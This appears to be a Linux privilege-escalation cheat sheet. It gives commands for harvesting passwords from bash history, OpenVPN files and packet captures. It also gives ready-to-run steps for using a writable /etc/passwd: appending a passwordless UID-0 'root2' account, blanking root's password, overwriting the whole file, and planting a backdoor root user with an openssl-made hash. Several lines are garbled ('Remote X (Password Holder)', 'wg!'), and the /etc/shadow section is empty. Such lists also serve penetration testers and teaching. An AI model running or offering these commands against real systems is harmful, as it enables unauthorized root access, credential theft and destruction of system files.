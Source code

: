 ## __Bash History__

```ps1
history                            
cat /home/<user>/.bash_history     
cat ~/.bash_history | grep -i passw 
```

## __OpenVPN Credentials__

```ps1
locate *.ovpn                       
```

## __Credentials in tcpdump files__

```ps1
tcpdump -nt -r capture.pcap -A 2>/dev/null | grep -P 'pwd='                    
```

## __Writable Password Files__
If you have write permission to the following files:

- /etc/passwd
- /etc/shadow
- /etc/sudoers



With /etc/passwd
```ps1
   echo 'root2::0:0::/root:/bin/bash' >> /etc/passwd
   su - root2
   id && whoami
   
// Add new user to the system with GID and UID of 0   
   
OR
   
  vi /etc/passwd
  Remote X (Password Holder) for root
  wg!
  su root
  id && whoami
  
// Remove root's password  
  
OR

  echo root::0:0:root:/root:/bin/bash > /etc/passwd
  id && whomai
  
OR

openssl passwd -1 -salt ignite NewRootPassword
Copy output
echo "root2:<output>:0:0:root:/root:/bin/bash" >> /etc/passwd
Replace <output> with the copied output
su root2
id && whoami
  
```  
With /etc/shadow 
```ps1

```